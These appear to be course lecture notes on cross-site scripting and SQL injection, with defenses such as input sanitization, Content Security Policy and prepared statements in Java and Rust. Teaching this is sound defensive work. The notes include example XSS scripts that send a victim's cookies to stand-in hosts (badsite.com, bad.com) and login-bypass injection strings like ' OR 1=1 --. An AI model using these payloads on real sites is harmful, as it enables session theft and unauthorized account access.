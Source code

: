 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```


# XSS and SQL injection

## Questions on the readings

The readings today are from
[Computer Security and the Internet](https://people.scs.carleton.ca/~paulv/toolsjewels.html),
[Chapter 9](https://people.scs.carleton.ca/~paulv/toolsjewels/TJrev1/ch9-rev1.pdf),
sections 9.6, 9.7.

## XSS: cross-site scripting

- injecting malicious scripts into HTML tags or web pages

  - rendering the HTML causes the script to be executed

### Stored or persistent XSS

```html
Here is a picture of my dog <img id="mydogpic" src="dog.jpg" />
<script>
  document.getElementById("mydogpic").src =
    "http://badsite.com/dog.jpg?arg1=" + document.cookie;
</script>
```

- input from an attacker is stored on a website (e.g. in a database) without
  being made safe to render and is then retrieved by the victim
- possible on any site that allows users to upload content (e.g. social media,
  discussion forums)
- in the example above, the attacker changes the `src` attribute of the image to
  be a URL that (a) goes to the attacker's site and (b) includes all of the
  user's cookies for the original site
- since images are loaded automatically, when a user visits a page with this
  content, the browser will automatically send that user's cookies to the
  attacker

### Reflected (non-persistent) XSS

```html
Our favorite site for deals is www.good.com: <a href=’http://www.good.com/ <script>document.location="http://bad.com/dog.jpg?arg1="+document.cookie; </script>’> Click here </a>
```

- attacker input is immediately returned, e.g. in an error message or search
  results, without the attacker input being made safe to render
- the example above takes advantage of a site that returns 404 errors with
  `File-not-found: filepath-requested`
- when the user clicks the link, the browser will visit the URL and the good
  site will return a 404 page:

```html
File-not-found:
<script>
  document.location="http://bad.com/
  dog.jpg?arg1=" + document.cookie;
</script>
```

- this sends the user to `bad.com`, and the attacker also gets the user's
  cookies for the good site

![XSS attacks](/images/security-book/figure-9.6.png)

### XSS impacts

- once you allow an attacker to inject JavaScript, they can do a lot

  - browser redirection
  - access cookies
  - access browser-stored data for a website
  - rewrite the document being displayed
  - exploit browser vulnerabilities

### Defenses

- sanitize input by removing tags
  - a good framework (e.g. React, Vue) does this for you
- sanitize output by using encoding, e.g. `&lt;` for left angle bracket
- [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
  - server can specify which domains are allowed to execute scripts

## SQL Injection

- why a vulnerability exists

  - databases store information in tables
  - scripts construct SQL queries
  - scripts use input from cookies, variables, users

- SQL injection

  - crafting input so an attacker chooses an SQL command to be executed

- attack types

  - extracting data from the database
  - modifying the database
  - unauthorized account access
  - denial of service

![web architecture](/images/security-book/figure-9.7.png)

### Example attacks

- imagine a server constructing a SQL query using input:

```js
query =
  "SELECT * FROM pswdtab WHERE username=’" + un + "’ AND password=’" + pw + "’";
```

- normal use:

```sql
SELECT * FROM pswdtab WHERE username=’sam’ AND password=’abcde’
```

- attacker sends username = `“root’ --”`:

```sql
SELECT * FROM pswdtab WHERE username=’root’ -- AND···
```

- note, `--` indicates a comment, so the rest of the SQL statement is ignored

- attacker sends username = ` “’OR 1=1 --”:

```sql
SELECT * FROM pswdtab WHERE username=’’ OR 1=1 --
```

- note, this provides an OR condition that is always true

### Defenses

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
  recommends prepared statements

  - prepare the query and then give variables to SQL database
  - binding parameters to a SQL query will allow the database to automatically
    handle escaping of characters

- Java example:

```java
// This should REALLY be validated too
String custname = request.getParameter("customerName");
// Perform input validation to detect attacks
String query = "SELECT account_balance FROM user_data WHERE user_name = ? ";
PreparedStatement pstmt = connection.prepareStatement( query );
pstmt.setString( 1, custname);
ResultSet results = pstmt.executeQuery( );
```

- Rust example:

```rust
// Input from CLI args but could be anything
let username = std::env::args().last().unwrap();

// Using built-in macros (compile time checks)
let users = sqlx::query_as!(
        User,
        "SELECT * FROM users WHERE name = ?",
        username
    )
    .fetch_all(&pool)
    .await
    .unwrap();

// Using built-in functions
let users: Vec<User> = sqlx::query_as::<_, User>(
        "SELECT * FROM users WHERE name = ?"
    )
    .bind(&username)
    .fetch_all(&pool)
    .await
    .unwrap();
```

- can also use safely-constructed stored procedures, which are similar
